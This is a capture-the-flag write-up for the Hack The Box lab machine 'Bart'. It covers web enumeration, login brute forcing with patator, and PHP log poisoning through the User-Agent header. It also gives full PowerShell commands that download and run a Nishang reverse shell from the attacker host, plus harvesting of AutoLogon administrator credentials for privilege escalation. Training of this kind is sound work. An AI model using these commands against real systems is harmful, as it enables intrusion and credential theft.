hackthebox Bart
Released: 24th February 2018 / Pwned: 8th November 2019 - [+] Solved whilst Retired

Bart is full of tricky little nuances, and should definitely not be rated medium difficulty.
Summary
• Find a commented out username in the forum.bart.htb source code
• wfuzz bart.htb for URLs to find bart.htb/monitor
• Verify usernames using bart.htb/monitor's 'Forgot password?' function
• Get lucky and log into the SERVER MONITOR (use the employee's last name)
• Find another subdomain on the SERVER MONITOR page
• Gain access to the internal dev chat by bruteforcing it
• Poison the log.php log by injecting PHP code into your User Agent, and gain a shell on the system
• Migrate to a 64bit PowerShell instance so that you don't encounter errors
• Query the registry to find Administrator's credentials stored in AutoLogon
• Use Invoke-Command to send an Administrator reverse shell back to your attacking machine
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-all.txt 10.10.10.81
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p 80 -T4 -sV -sC -O -oN nmap/tcp-80.txt 10.10.10.81
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
┌─[root@parrot]─[/ctf/bart]
└──╼ #mkdir nmap
┌─[root@parrot]─[/ctf/bart]
└──╼ #nmap -p- -T4 -oN nmap/tcp-all.txt 10.10.10.81
[...]
PORT STATE SERVICE
80/tcp open http
┌─[root@parrot]─[/ctf/bart]
└──╼ #nmap -p 80 -T4 -sV -sC -O -oN nmap/tcp-80.txt 10.10.10.81
[...]
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): FreeBSD 6.X (87%), Microsoft Windows 10|2008 (87%)
[...]
Analysis:
• 80/http - There's only a web server running!
2) 80/http - forum.bart.htb
Browse to http://10.10.10.81
The page redirects to forum.bart.htb

Add forum.bart.htb to your /etc/hosts file so that you can access the site.
┌─[root@parrot]─[/ctf/bart/http]
└──╼ #nano /etc/hosts
[...]
10.10.10.81 forum.bart.htb
The page works now :)
Scroll to the bottom, and you'll see that the site is powered by WordPress (which is a lie, it's not powered by WordPress at all).

If you view the source code, you'll find an extra user that's been commented out of the page - Harvey Potter, the developer for BART.

2a) gobuster --> wfuzz
gobuster fails against the site becuase the invalid pages always return a 500 server error.
┌─[root@parrot]─[/ctf/bart/http]
└──╼ #gobuster dir -e -u http://forum.bart.htb -w /usr/share/seclists/Discovery/Web-Content/big.txt -o gb1.txt -x .txt,.asp,.aspx,.php -s 200,204,301,302,307,401,403,500
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://forum.bart.htb
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes: 200,204,301,302,307,401,403,500
[+] User Agent: gobuster/3.0.1
[+] Extensions: php,txt,asp,aspx
[+] Expanded: true
[+] Timeout: 10s
===============================================================
Error: the server returns a status code that matches the provided options for non existing urls. http://forum.bart.htb/6934ea25-6131-4fdd-a494-6c77ea61dffa => 500. To force processing of Wildcard responses, specify the '--wildcard' switch
To get around this I used wfuzz, but you could also just tell Burp to not ignore status code 500 responses.
wfuzzing http://forum.bart.htb didn't return anything, so I added bart.htb to my /etc/hosts file and fuzzed http://bart.htb instead.
-hh 150693 hides page responses that are 150693 characters long, which was the length of the ‘Page Not Found’ style response from http://bart.htb
┌─[root@parrot]─[/ctf/bart/http]
└──╼ #nano /etc/hosts
[...]
10.10.10.81 forum.bart.htb bart.htb
┌─[root@parrot]─[/ctf/bart/http]
└──╼ #wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/big.txt --hh 150693 http://bart.htb/FUZZ
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz s documentation for more information.
********************************************************
* Wfuzz 2.4 - The Web Fuzzer *
********************************************************
Target: http://bart.htb/FUZZ
Total requests: 20473
===================================================================
ID Response Lines Word Chars Payload
===================================================================
000007895: 301 1 L 10 W 145 Ch "forum"
000012007: 301 1 L 10 W 147 Ch "monitor"
Total time: 2019.150
Processed Requests: 20473
Filtered Requests: 20471
Requests/sec.: 10.13941
wfuzz found another URL - bart.htb/monitor
3) bart.htb/monitor
bart.htb/monitor appears to be a SERVER MONITOR page.

To advance any further we need to log in.
3a) Verify usernames with ‘Forgot password?’
We know the names of some employees of BART from forum.bart.htb - Samantha Brown, Daniel Simmons, Robert Hilton, and Harvey Potter - but we don't know what their usernames are. The Forgot password? function can be used to find some.

I created a wordlist of the usernames found on the homepage + variations of them.
I put Harvey first in the list because he's the developer at BART, and is the most likely employee to have access to the SERVER MONITOR page.
┌─[root@parrot]─[/ctf/bart/http]
└──╼ #nano usernames.txt
harvey
potter
harverypotter
h.potter
h.potter@bart.htb
samantha
brown
samanthabrown
s.brown
s.brown@bart.htb
daniel
simmons
danielsimmons
d.simmons
d.simmons@bart.htb
robert
hilton
roberthilton
r.hilton
r.hilton@bart.htb
I tried all the usernames one by one, and harvey came back as a valid username.

3b) monitor.bart.htb
I got lucky and tried harvey's last name as his password - potter - which worked (I'm not really a fan of challenges like this :/)
Edit your /etc/hosts file and include monitor.bart.htb for the redirect to work correctly.
There's an internal chat server running.

The chat's running at another subdomain - http://internal-01.bart.htb

4) internal-01.bart.htb
Add the subdomain to your /etc/hosts file so that you can access the site
┌─[root@parrot]─[/ctf/bart/http]
└──╼ #nano /etc/hosts
[...]
10.10.10.81 forum.bart.htb bart.htb internal-01.bart.htb
Another login page!
harvey / potter doesn't work here, but we do get an interesting error message - The Password must be at least 8 characters.

If you try logging in with an 8 character password - like harvey / password - we get a different error message - Invalid Username or Password

There's no CSRF token on this login form, which means that we can try bruteforcing it.

4a) Create wordlist
The password needs to be 8 characters long, so I wrote a python script to iterate through my chosen wordlist and copy every 8 character and longer password into a new separate file. (there's probably a super easy bash one-liner to do this, but I couldn't think of it).
wordlist = "/usr/share/seclists/Passwords/darkweb2017-top1000.txt"
newWordlistArray = []
newWordlist = "newWordlist.txt"
with open(wordlist) as f_obj:
for line in f_obj:
# strip newline char
password = line.rstrip()
passwordLength = len(password)
if passwordLength >= 8:
# don't want nested "with open()" -> append pasword to array to solve this problem
newWordlistArray.append(password)
with open(newWordlist, 'a') as f_obj:
for password in newWordlistArray:
f_obj.write(password + "\n")
My wordlist has decresed from 1000 words to 345 words, which is nice!
┌─[root@parrot]─[/ctf/bart]
└──╼ #python3 linelength.py
┌─[root@parrot]─[/ctf/bart]
└──╼ #wc -l newWordlist.txt
345 newWordlist.txt
4b) Bruteforce login form
I bruteforced the login form with patator.
-x ignore:fgrep='Invalid Username or Password' wouldn't filter the output correctly for me (every password worked, apparently), so I filtered by page size instead - -x ignore:size=2111
┌─[root@parrot]─[/ctf/bart]
└──╼ #patator http_fuzz url=http://internal-01.bart.htb/simple_chat/login.php method=POST body='uname=harvey&passwd=FILE0&submit=Login' 0=./newWordlist.txt follow=1 -x ignore:size=2111
11:11:02 patator INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator)
11:11:02 patator INFO -
11:11:02 patator INFO - code size:clen time | candidate | num | mesg
11:11:02 patator INFO - ---------------------------------------------------------------
11:11:23 patator INFO - 200 2481:1407 1.172 | Password1 | 178 | HTTP/1.1 200 OK
11:11:42 patator INFO - Hits/Done/Skip/Fail/Size: 1/345/0/0/345, Avg: 8 r/s, Time: 0h 0m 39s
Success! Harvey's credentials for the dev chat are harvey / Password1
Go log in.

4c) log.php
In the page source, we see that the chat is being logged.

Browse to the URL in the page source - http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey - and we get a 1?
Something must be true.

Remove the parameters from the URL and we get an error message which informs us of another file - log.php.

At http://internal-01.bart.htb/log/log.php?filename=log.php we get the same error message as before about a username.

Provide a username parameter to the page, and we get a 1 back, like the original URL.

4d) log.aspx - Log Poisoning
At its core, hacking is about trying things out and seeing what happens.
The original URL was log.txt, an error message pointed us to log.php, so I decided to query for different file extensions on this log file (this reads as logical in hindsight, but it doesn't feel it at the time).
Eventually, log.aspx returned a different output.
It printed out the time, the date, the user who accessed the page, and their User Agent.

This log is reading our User Agent.
We can modify our User Agent.
If we put PHP code in our user agent, will it execute?

It does!
Run whoami, and you'll discover that the web server is running as iusr.
Gain Access
4e) Execute reverse shell
From here, we can get a shell on the system.
Start a listener on your attacking machine.
┌─[root@parrot]─[/ctf/bart]
└──╼ #nc -lvnp 9001
listening on [any] 9001 ...
Copy Nishang's InvokePowerShellTcp.ps1 script to a working directory, or download it if you don't have it - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 , and edit the last line of the script to send a reverse shell back to your listener.
┌─[root@parrot]─[/ctf/bart/serve]
└──╼ #locate InvokePowerShellTcp.ps1
┌─[✗]─[root@parrot]─[/ctf/bart/serve]
└──╼ #locate Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
┌─[root@parrot]─[/ctf/bart/serve]
└──╼ #cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang9001.ps1
┌─[root@parrot]─[/ctf/bart/serve]
└──╼ #nano nishang9001.ps1
[...]
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 9001
Serve the Nishang reverse shell to the target system with a python web server.
┌─[root@parrot]─[/ctf/bart/serve]
└──╼ #python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
And use code execution in log.php to download and execute your reverse shell.
My URL query looked like this:
http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey&cmd=powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7:8000/nishang9001.ps1')
You should see the target download the Nishang shell from your web server
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.81 - - [08/Nov/2019 11:55:09] "GET /nishang9001.ps1 HTTP/1.1" 200 -
And a few moments later see a connection on your listener!
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.81] 49676
Windows PowerShell running as user BART$ on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\inetpub\wwwroot\internal-01\log>
Priv-Esc to Administrator
5) Migrate to 64bit PowerShell
This caused me a huge headache.
The OS is 64bit, but our running instance of PowerShell is 32bit.
PS C:\inetpub\temp> [environment]::Is64BitOperatingSystem
True
PS C:\inetpub\temp> [environment]::Is64BitProcess
False
This will cause huge problems for reconnaissance whilst on the system, like errors/false flags/results not showing up.
You need to migrate to 64bit reverse shell.
PowerShell on 64bit systems is located in 1 of 2 (potentially both? I'm not sure) places:
• C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe
• C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe
system32, on 64bit machines, stores 64bit binaries.
SysNative is a virtual folder, only available on 64bit systems, which ised used by 32bit applications to access 64bit binaries in the system32 folder.
Since we got a 32bit shell initially, the web server must be running as a 32bit process, which means we need to query the SysNative folder to retrieve a 64bit instance of PowerShell.
Kill your original shell, and start a listener to receive your new shell.
┌─[✗]─[root@parrot]─[/ctf/bart]
└──╼ #nc -lvnp 9001
listening on [any] 9001 ...
Retrieve your shell again via log.php, this time specifying powershell.exe in SysNative.
My URL query looked like this:
http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey&cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe%20-c%20IEX%20(New-Object%20Net.WebClient).downloadString(%27http://10.10.14.7:8000/nishang9001.ps1%27)
You should receive a connection on your listener, and a 64bit shell!
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.81] 49696
Windows PowerShell running as user BART$ on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\inetpub\wwwroot\internal-01\log>[environment]::Is64BitProcess
True
6) Auto Logon
Check the registry for Auto Logon credentials.
PS C:\inetpub\wwwroot\internal-01\log> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
[...]
LastUsedUsername REG_SZ Administrator
DefaultPassword REG_SZ 3130438f31186fbaf962f407711faddb
Administrator has their credentials stored in Auto Logon!
Administrator / 3130438f31186fbaf962f407711faddb
PowerShell doesn't have a su function, so switching to or running commands as Administrator is more difficult than it should be.
7) Run commands as Administrator
Windows doesn't like your passing passwords as plaintext, so you have to convert them to a SecureString and store it in a variable.
PS C:\inetpub\wwwroot\internal-01\log> $passwordHere = ConvertTo-SecureString '3130438f31186fbaf962f407711faddb"' -AsPlainText -Force
PS C:\inetpub\wwwroot\internal-01\log> $credsHere = New-Object System.Management.Automation.PSCredential('BART\Administrator', $passwordHere)
The easiest way I thought of to get a shell as Administrator was to send myself one.
Start a listener on your attacking machine (on a different port than the one your existing shell is currently running on)
┌─[✗]─[root@parrot]─[/ctf/bart]
└──╼ #nc -lvnp 9002
listening on [any] 9002 ...
Copy Nishang's Invoke-PowerShellTcp.ps1 to a working directory and edit the last line of the script to send a reverse shell back to you.
┌─[✗]─[root@parrot]─[/ctf/bart/serve]
└──╼ #cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang9002.ps1
┌─[root@parrot]─[/ctf/bart/serve]
└──╼ #nano nishang9002.ps1
[...]
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 9002
Serve the reverse shell to the target machine with a python web server
┌─[✗]─[root@parrot]─[/ctf/bart/serve]
└──╼ #python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
And to run the reverse shell as Administrator, use Invoke-Command.
PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7:8000/nishang9002.ps1') } -Credential $cred -Computer localhost
You should receive a reverse shell as Administrator on your listener!
listening on [any] 9002 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.81] 49727
Windows PowerShell running as user Administrator on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\Administrator\Documents>whoami
bart\administrator
From here you can go grab user.txt and root.txt.
PS C:\Users\Administrator\Documents> cd ..\Desktop
PS C:\Users\Administrator\Desktop> type root.txt
0074a38e6...
PS C:\Users\Administrator\Desktop> tree /F C:\Users
Folder PATH listing
Volume serial number is 00000010 F84E:9CF7
C:\USERS
[...]
????h.potter
? ? user.txt
? ?
? ????Contacts
? ????Desktop
? ? ????test
? ? index.aspx
? ? web.config
? ?
? ????Documents
? ????Downloads
? ????Favorites
PS C:\Users\Administrator\Desktop> cd C:\Users\h.potter
PS C:\Users\h.potter> type user.txt
625b6c7aa...